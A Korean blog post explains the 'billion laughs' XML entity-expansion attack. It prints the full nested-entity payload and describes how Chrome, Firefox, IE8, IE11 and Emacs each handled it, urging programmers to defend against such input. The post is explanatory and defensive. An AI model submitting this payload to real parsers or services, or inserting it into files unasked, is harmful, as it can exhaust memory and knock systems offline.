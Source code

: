 date: 2011-04-14
tags: security
title: 교활한 XML
---
XML 파일이 프로그램을 죽일 수도 있다는 생각은 하지 못했다. XML은 그저 텍스트일 뿐이고 프로그램은 그저 파일을 읽어서 처리할 뿐인데... 그런데 다음과 같은 파일을 보고서야 그럴 수도 있다는 것을 알게 되었다.
<!-- more -->

```xml
<?xml version="1.0"?>
<!DOCTYPE billion [
<!ELEMENT billion (#PCDATA)>
<!ENTITY laugh0 "ha">
<!ENTITY laugh1 "&laugh0;&laugh0;">
<!ENTITY laugh2 "&laugh1;&laugh1;">
<!ENTITY laugh3 "&laugh2;&laugh2;">
<!ENTITY laugh4 "&laugh3;&laugh3;">
<!ENTITY laugh5 "&laugh4;&laugh4;">
<!ENTITY laugh6 "&laugh5;&laugh5;">
<!ENTITY laugh7 "&laugh6;&laugh6;">
<!ENTITY laugh8 "&laugh7;&laugh7;">
<!ENTITY laugh9 "&laugh8;&laugh8;">
<!ENTITY laugh10 "&laugh9;&laugh9;">
<!ENTITY laugh11 "&laugh10;&laugh10;">
<!ENTITY laugh12 "&laugh11;&laugh11;">
<!ENTITY laugh13 "&laugh12;&laugh12;">
<!ENTITY laugh14 "&laugh13;&laugh13;">
<!ENTITY laugh15 "&laugh14;&laugh14;">
<!ENTITY laugh16 "&laugh15;&laugh15;">
<!ENTITY laugh17 "&laugh16;&laugh16;">
<!ENTITY laugh18 "&laugh17;&laugh17;">
<!ENTITY laugh19 "&laugh18;&laugh18;">
<!ENTITY laugh20 "&laugh19;&laugh19;">
<!ENTITY laugh21 "&laugh20;&laugh20;">
<!ENTITY laugh22 "&laugh21;&laugh21;">
<!ENTITY laugh23 "&laugh22;&laugh22;">
<!ENTITY laugh24 "&laugh23;&laugh23;">
<!ENTITY laugh25 "&laugh24;&laugh24;">
<!ENTITY laugh26 "&laugh25;&laugh25;">
<!ENTITY laugh27 "&laugh26;&laugh26;">
<!ENTITY laugh28 "&laugh27;&laugh27;">
<!ENTITY laugh29 "&laugh28;&laugh28;">
<!ENTITY laugh30 "&laugh29;&laugh29;">
]>
<billion>&laugh30;</billion>
```

우리회사 프로그램이 제대로 처리하지 못한다며 고객이 보내준 XML 파일이다. 이 파일을 Chrome이나 Firefox와 같은 브라우저에서 열면 즉각 에러를 표시한다.

![](chrome.png)

그러나 IE8에서 열면 브라우저 화면에 아무것도 나타나지 않지만 CPU를 계속 사용하고 메모리도 계속 늘어난다. 메모리 사용량이 거의 1GB가까지 늘어나는 것을 보고 죽여야 했다. IE8도 이 XML 파일을 제대로 처리하지 못하는 것이다.

파일 내용을 보면 `laugh0` ~ `laugh30`까지 31개의 엔터티를 정의하는데 `laugh0`은 "ha"로 정의되어 있고 나머지 엔터티는 이전 엔터티를 두번 참조하는 것으로 정의되어 있다. `laugh1`은 `laugh0`이 두번 나오는 것이고, `laugh2`는 `laugh1`이 두번 나오는 것이다. 이런 식으로 `laugh30`까지 간다. 따라서 엔터티를 모두 확장해보면...

```
laugh0 --> ha
laugh1 --> haha
laugh2 --> hahahaha
laugh3 --> hahahahahahahaha
laugh4 --> hahahahahahahahahahahahahahahaha
laugh5 --> hahahahahahahahahahahahahahahahahahahahahahahahahahahahahahahaha
...
```
`<billion>&laugh30;</billion>`을 표시하려면 "ha"를 2<sup>30</sup>번 표시해야 한다. 2<sup>30</sup>이면 1G에 해당하는 크기다. "ha"를 2바이트라고 하면 이 XML 문서를 표시하기 위해 2GB 길이의 문자열을 표시해야 하는 것이다.

이 교활한 XML 파일을 읽고는 프로그램이 죽어버리거나 제대로 처리하지 못하는 것도 이해할만하지만 잘 작성된 프로그램이라면 그러지 말아야 한다. Chrome이나 Firefox는 이런 문제가 생길 수 있다는 것을 즉각 알아채고 에러 메시지를 표시한다. 잘 작성된 프로그램이다. IE8은 그렇지 못하다.

이 XML 파일을 보고서야 XML 문서로 프로그램을 공격할 수 있다는 걸 알게 되었고, 프로그램을 작성할 때도 이런 공격에 대비를 해야 한다는 것도 알게 되었다.

## 업데이트 (2014-11-12)
* 윈도우7 IE11에서 위 XML 파일을 열어보면 예전의 IE8 처럼 삽질을 하지 않는다. 그저 조용히 맨 아랫줄 `<billion>&laugh30;</billion>`을 제거하고 아무런 에러 메시지도 표시하지 않는다. 브라우저가 멈춰버리지는 않지만 친절한 UX라 할 수는 없다.
* Emacs(24.4.1) 에디터에서 위 XML 파일을 열면 응답하지 않는 상태가 된다. XML 소스를 scratch 버퍼에 붙여넣는 것은 되지만 이를 XML 파일로 저장하려 하면 역시 응답하지 않는 상태가 된다. 프로세스가 CPU를 계속 사용하는 것으로 보아 뭔가 삽질을 하고 있는게 분명하다.
